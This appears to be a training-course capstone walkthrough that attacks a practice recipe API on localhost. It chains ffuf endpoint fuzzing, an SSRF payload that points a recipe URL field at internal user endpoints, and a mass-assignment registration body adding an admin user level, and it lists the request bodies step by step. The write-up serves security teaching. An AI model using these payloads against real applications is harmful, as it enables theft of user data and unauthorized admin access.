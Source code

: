 # 📝 Capstone Project Walkthrough: SSRF, Mass Assignment, and Privilege Escalation

---

## 🚀 High-Level Summary

This capstone project demonstrates multiple chained vulnerabilities, including **Server-Side Request Forgery (SSRF)**, **Mass Assignment**, and **Privilege Escalation**, to exploit the application's weak points. Using tools like `ffuf` for endpoint enumeration and manual API manipulation in Postman and Burp Suite, the attacker gains admin access to retrieve sensitive recipe data.

---

## 📚 Definition Bank

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**SSRF (Server-Side Request Forgery)**|A vulnerability that allows an attacker to make the server fetch resources from unintended destinations.|Exploited by modifying the `original` key in a recipe to access internal endpoints.|
|**Mass Assignment**|Unauthorized modification of object properties by passing unexpected fields during data input.|Exploited by adding `userlevel:admin` during registration to escalate privileges.|
|**Privilege Escalation**|Gaining higher-level access than permitted by exploiting vulnerabilities or misconfigurations.|Achieved by registering as an admin and accessing admin-only resources.|
|**ffuf**|A web fuzzing tool used to discover hidden endpoints or parameters in web applications.|Used here to find internal `uptime` and `users` actions.|
|**dirb/big.txt**|A commonly used wordlist for directory and endpoint enumeration in web applications.|Helps in discovering hidden endpoints during fuzzing.|

---

## 🌟 Key Attack Chain Steps

1. **Enumerate Endpoints with `ffuf`:**
    
    - Command used:
        
        ```bash
        ffuf -u http://localhost:3000/v1/data/internal/FUZZ -w /usr/share/seclists/dirb/big.txt
        ```
        
    - Result: Discovered `/v1/data/internal/uptime` and `/v1/data/internal/users`.
2. **Confirm SSRF Vulnerability:**
    
    - Modify the `original` key in the `PUT /v1/recipes/:id` request to point to external and internal URLs:
        
        ```json
        {
          "original": "http://google.com"
        }
        ```
        
    - Result: The server fetches Google’s HTML, confirming SSRF.
3. **Exploit SSRF for Internal Data:**
    
    - Use internal endpoints:
        
        ```json
        {
          "original": "http://localhost:3000/v1/data/internal/users"
        }
        ```
        
    - Result: Retrieve sensitive user data, including session tokens and passwords.
4. **Exploit Mass Assignment:**
    
    - Register a new user with an elevated privilege level:
        
        ```json
        {
          "username": "newuser",
          "password": "newuser",
          "userlevel": "admin"
        }
        ```
        
    - Result: Successfully create an admin user.
5. **Privilege Escalation:**
    
    - Use the admin session token to access restricted endpoints:
        
        ```json
        {
          "sessionId": "admin-session-token"
        }
        ```
        
    - Example endpoint:
        
        ```http
        GET /v1/data/admin/recipes
        ```
        

---

## 🛠️ Steps to Complete the Capstone

### Step 1: Register a New User

- Endpoint: `POST /v1/auth/register`
- Request Body:
    
    ```json
    {
      "username": "test",
      "password": "test"
    }
    ```
    

### Step 2: Decode Session Token

- Decode the Base64 session token:
    
    ```bash
    echo -n 'dGvzdGJkRW1DOQ==' | base64 -d
    ```
    
- Result: `test+random characters`.

### Step 3: Enumerate Internal Endpoints

- Use `ffuf` to enumerate possible internal actions:
    
    ```bash
    ffuf -u http://localhost:3000/v1/data/internal/FUZZ -w /usr/share/seclists/dirb/big.txt
    ```
    
- Results:
    - `/v1/data/internal/uptime`
    - `/v1/data/internal/users`

### Step 4: Confirm SSRF Vulnerability

- Endpoint: `PUT /v1/recipes/:id`
- Request Body:
    
    ```json
    {
      "original": "http://google.com"
    }
    ```
    
- Result: Response contains Google’s HTML.

### Step 5: Exploit SSRF for Sensitive Data

- Modify the `original` key:
    
    ```json
    {
      "original": "http://localhost:3000/v1/data/internal/users"
    }
    ```
    
- Result: Retrieve user-level data and session tokens.

### Step 6: Exploit Mass Assignment

- Register a new user with elevated privileges:
    
    ```json
    {
      "username": "newuser",
      "password": "newuser",
      "userlevel": "admin"
    }
    ```
    

### Step 7: Access Admin-Only Resources

- Use the admin session token to access `/v1/data/admin/recipes`:
    
    ```json
    {
      "sessionId": "admin-session-token"
    }
    ```
    

---

## 🔑 Key Takeaways

1. **SSRF**: Exploit internal server behavior to fetch unauthorized data.
2. **Mass Assignment**: Inject unauthorized fields to elevate privileges.
3. **Privilege Escalation**: Use elevated privileges to access restricted resources.
